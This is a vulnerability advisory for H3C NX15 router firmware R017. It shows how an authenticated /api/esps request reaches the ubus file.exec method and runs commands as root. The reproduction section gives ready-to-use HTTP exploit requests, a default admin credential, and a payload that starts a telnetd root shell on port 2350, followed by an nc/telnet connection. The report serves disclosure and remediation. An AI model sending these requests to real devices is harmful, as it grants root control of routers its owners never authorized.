# H3C NX15 R017 Exposed `file.exec` Authenticated Root Command Execution

## Summary

H3C NX15 Router firmware NX15V100R017 exposes the raw ubus object `file` through the authenticated `/api/esps` web API. The `file.exec` method is a native command-execution interface and runs with root privileges. An authenticated web administrator can invoke this method remotely and execute arbitrary commands as root.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC
- Exposed object: `file`
- Exposed method: `exec`

## Vulnerability Type

- Improper exposure of dangerous system function
- Command execution by design exposed across an unsafe trust boundary
- Suggested CWE: CWE-749 Exposed Dangerous Method or Function
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can execute arbitrary commands as root. Confirmed impact includes:

- Running basic commands through `file.exec`.
- Starting a temporary shell service.
- Connecting to the service and executing commands with UID 0.

## Technical Details

The web backend `/api/esps` contains generic ubus forwarding logic. Runtime testing confirmed that requests are not limited to `esps.*` objects and can reach the raw ubus object:

```text
file
```

The object exposes the method:

```text
file.exec {"command":"String","params":"Array","env":"Table"}
```

This method is intended for local system use and executes the supplied command as the privileged backend process. When exposed through `/api/esps`, it becomes a remote authenticated root command-execution primitive.

The critical point is that this is not a shell-metacharacter parsing bug in a product-specific script. The request flow is:

```text
POST /api/esps
  -> authenticated /www/api /esps handler
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua maps object="file", method="exec"
  -> raw ubus method file.exec
```

In `magic_link.lua`, the external JSON fields are translated directly into ubus `path`, `func`, and `args`, so there is no application-level allowlist restricting callers to `esps.*` objects. As a result, any authenticated web administrator can invoke the native execution primitive itself.

### Backend Execution Evidence

The backend that actually implements `file.exec` is the `rpcd` plugin:

```text
/usr/lib/rpcd/file.so
```

This is the important architectural point: `ubus` is only the RPC transport. It does not execute shell commands by itself. The execution path is:

```text
authenticated /api/esps request
  -> /www/api
  -> Lua ubus forwarding layer
  -> ubus call file.exec
  -> /sbin/rpcd
  -> /usr/lib/rpcd/file.so
  -> exec handler
  -> native process execution
```

Runtime enumeration on the target confirms that the raw ubus object `file` exposes the dangerous method directly:

```text
ubus -v list file

'file' @...
    "read":{"path":"String","base64":"Boolean"}
    "write":{"path":"String","data":"String","append":"Boolean","mode":"Integer","base64":"Boolean"}
    "list":{"path":"String"}
    "stat":{"path":"String"}
    "md5":{"path":"String"}
    "exec":{"command":"String","params":"Array","env":"Table"}
```

Static reverse engineering of `/usr/lib/rpcd/file.so` shows the corresponding ubus registration and sink:

- `sub_13A4()` calls `ubus_add_object(a2, &unk_14010)`, proving that the plugin registers a ubus object.


- The object descriptor at `unk_14010` references the string `"file"`.



- The method table contains an `"exec"` entry bound to handler `sub_24C8`.


- The parameter policy referenced by that method contains the fields `"command"`, `"params"`, and `"env"`.
- The handler `sub_24C8()` parses those fields with `blobmsg_parse(...)`, applies environment variables with `setenv(...)`, builds the argument vector, and finally invokes `execv(...)`.







In other words, `file.exec` is a native execution primitive exposed through `rpcd`, not a product-specific shell script bug. If the caller supplies `command="/bin/sh"` and `params=["-c", "..."]`, the backend will execute `/bin/sh` and allow shell syntax inside the `-c` string. If the caller supplies another binary directly, the backend executes that binary through `execv()` without requiring shell metacharacters.

### Reverse Engineering Reference Points

The following offsets from `/usr/lib/rpcd/file.so` are useful when independently verifying the implementation in IDA:

- `0x13A4` - `sub_13A4()`: plugin-side ubus registration helper. The function calls `ubus_add_object(a2, &unk_14010)`.
- `0x14010` - `unk_14010`: ubus object descriptor referenced during registration.
- `0x1402C` - pointer to string `"file"` (`0x2FF0`), showing that the registered object name is `file`.
- `0x13EE4` - start of the ubus method table region used by the `file` object.
- `0x13F5C` - pointer to string `"exec"` (`0x2FD8`), identifying the `exec` method entry.
- `0x13F60` - pointer to handler `sub_24C8`, the implementation behind `file.exec`.
- `0x13F6C` - pointer to parameter policy table `off_13FA8`.
- `0x13FA8` - policy entry for `"command"` (`0x3034`).
- `0x13FB0` - policy entry for `"params"` (`0x303C`).
- `0x13FB8` - policy entry for `"env"` (`0x3044`).
- `0x24C8` - `sub_24C8()`: `file.exec` handler. This function parses blobmsg fields, resolves the executable path, processes argument arrays and environment variables, calls `setenv(...)`, and finally reaches `execv(...)`.

These addresses establish a direct object-to-method-to-sink chain inside the plugin:

```text
sub_13A4()
  -> ubus_add_object(..., &unk_14010)
  -> object name "file"
  -> method table region @ 0x13EE4
  -> "exec" entry @ 0x13F5C
  -> handler sub_24C8 @ 0x24C8
  -> policy off_13FA8 -> {command, params, env}
  -> setenv(...)
  -> execv(...)
```

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `/usr/lib/rpcd/file.so`: ubus backend plugin that registers object `file` and implements method `exec`.
- `/sbin/rpcd`: system RPC daemon that loads `file.so` and executes the requested program with its runtime privileges.
- `/bin/sh`: command interpreter used by the PoC when invoking `file.exec`.

Example RPC shape:

```json
[
  {
    "id": 1,
    "object": "file",
    "method": "exec",
    "param": {
      "command": "/bin/sh",
      "params": ["-c", "id >/tmp/file_exec_marker"],
      "env": {}
    }
  }
]
```

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_file_exec_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --spawn-shell \
  --port 2350 \
  --cleanup
```

The PoC:

1. Authenticates to the web interface.
2. Calls `/api/esps` with object `file` and method `exec`.
3. Executes a command that either returns root output directly in `stdout` or starts a temporary shell service.
4. Optionally connects to the shell and verifies root execution.

Expected result:

```text
uid=0(root)
```

Manual request sequence:

1. Authenticate through `POST /api/login/auth` and capture the `session`.
2. Send:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"file","method":"exec","param":{"command":"/bin/sh","params":["-c","id; uname -a; echo FILE_EXEC_OK >/tmp/file_exec_marker"],"env":{}}}]
```

3. Inspect the JSON response. A successful result commonly includes `uid=0(root)` in `stdout`.

If an interactive proof is preferred, the PoC can additionally spawn a temporary `telnetd` listener with `--spawn-shell`.

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

2. Extract `data.session` and send a direct proof request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"file","method":"exec","param":{"command":"/bin/sh","params":["-c","id; uname -a; echo FILE_EXEC_OK >/tmp/file_exec_marker"],"env":{}}}]
```

3. Confirm that the JSON response contains:

- `code = 0`
- `stdout` including `uid=0(root)`

4. Optional interactive-shell request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"file","method":"exec","param":{"command":"/bin/sh","params":["-c","echo FILE_EXEC_OK >/tmp/file_exec_marker; telnetd -p2350 -l /bin/sh"],"env":{}}}]
```

5. Connect:

```bash
telnet 192.168.8.1 2350
```

or:

```bash
nc 192.168.8.1 2350
```

and run:

```sh
id
uname -a
cat /tmp/file_exec_marker
```


## Evidence

- The Lua `magic_link` layer allows authenticated `/api/esps` callers to target raw ubus object `file` directly.
- Runtime object enumeration confirmed that `file.exec` exists and accepts `command`, `params`, and `env`.
- Reverse engineering of `/usr/lib/rpcd/file.so` confirmed that the `file` object is registered through `ubus_add_object(...)` and that method `exec` is bound to a handler that reaches `setenv(...)` and `execv(...)`.
- Runtime testing confirmed that `/api/esps` can invoke `file.exec` using an authenticated web session.
- Commands executed through this method run as root without requiring any shell metacharacter injection trick.

## Attachments

- Report: `report/postauth_file_exec_rce_report.md`
- PoC: `poc/postauth_file_exec_rce.py`

## Remediation

- Prevent `/api/esps` from forwarding requests to raw ubus objects such as `file`.
- Add a strict object and method allowlist for web-exposed RPC.
- Deny access to command-execution primitives from the web management interface.
- If command execution is required internally, bind it to local-only callers and enforce caller identity checks.
